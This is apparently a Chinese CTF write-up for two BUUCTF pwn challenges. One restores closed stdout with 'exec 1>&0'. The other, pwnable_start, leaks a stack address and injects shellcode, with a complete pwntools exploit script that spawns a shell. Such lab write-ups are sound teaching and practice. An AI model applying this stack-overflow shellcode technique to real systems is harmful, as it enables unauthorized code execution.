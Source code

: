 # buu060-wustctf2020_closed
这道题实际上是要我们理解linux标准输入输出。开启一个终端之后，对于这个终端来说有标准输入（文件描述符为0）、标准输出（1）和标准错误输出（2）三个标准IO流。这三个流的文件描述符指向的是一个地方，也就是开启的控制台。理解这道题题解``exec 1>&0``的关键是将控制台程序本身看成是一个文件，这个文件可以通过我们的键盘输入内容，也可以进行输出，输出的内容可以被我们看见，但输出本身仍然在这个文件中。程序关闭了标准输出和标准错误输出，但是输入没有关闭，三个文件描述符原本指向的都是这个控制台程序，那么现在我们只需要让标准输入重新指向控制台就可以了，也就是指向标准输入指向的地方。

如下图所示，这个控制台程序是pycharm内部的控制台，其标准输入、输出、错误输出都指向/dev/pts/2。那么``exec 1>&0``实际上就等同于``exec 1>/dev/pts/2``。
![](https://img-blog.csdnimg.cn/f64b0e16746e4033acc32034e0ddaa98.png)
我们首先使用``exec 1>&0``打开输出流，查看一下标准输入流指向的位置，发现是``/dev/pts/2``
![](https://img-blog.csdnimg.cn/7d7b13c63cd3446c9925f2526da69930.png)
因此，下面的输入也可以打开输出流：``exec 1>/dev/pts/2``（本地可以，远程不行因为没有file命令）
![](https://img-blog.csdnimg.cn/6139c8e25c4c4f389fb3fc2e500f0128.png)
# buu061-pwnable_start
这道题源程序非常简单，应该是用汇编写的，就两个函数。进行了两次系统调用，一次输出一次输入，栈可执行。

观察到输入的长度大于输出，可以通过返回到输出syscall上方的代码，跳过对输出长度``mov dl, 14h``的修改，而直接执行后面的``mov bl,1; mov al,4``，可以实现输出0x3C个字节的数据，以此来获取栈的地址。

打印出栈地址之后还可进行一次输出，可以将shellcode写入，然后执行shellcode即可。经过调试发现shellcode有44字节，写入shellcode之后正好就是返回地址的写入位置。但这里需要注意几点：
1. 不能直接将返回地址写到shellcode之后。虽然这样能够成功返回到shellcode，但是由于shellcode中有很多push指令，而shellcode在返回地址的低地址处，会导致shellcode的后面一部分被覆盖，无法正常执行。
2. 不能直接将shellcode写到返回地址后面，因为输入的长度最多只能为0x3C字节，在返回地址之后最多只能写入0xC个字节，长度不够。

因此考虑在返回地址之后单独写一个跳转的小gadget：``sub esp, 0x100; jmp ecx``。注意执行到这里时ecx的值和调用输入系统调用的ecx值相等，因此jmp ecx能够直接执行shellcode。而``sub esp,0x100``则是强制让栈下移，防止shellcode被覆盖。如此，返回地址就应该写``sub esp,0x100``的地址。

![](https://img-blog.csdnimg.cn/7a253efba1d34b23b9e8239f6b5b4558.png)

exp：
```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
io = process('./pwn')

payload = cyclic(20)
payload += p32(0x804808B)

io.sendafter(b'Let\'s start the CTF:', payload)
io.recvuntil(p32(0x804808b))
stack_addr = u32(io.recv(4))

payload = asm(shellcraft.sh())
payload += p32(stack_addr + 0x14)
payload += asm("sub esp, 0x100;"
               "jmp ecx;")

io.send(payload)
io.interactive()
```

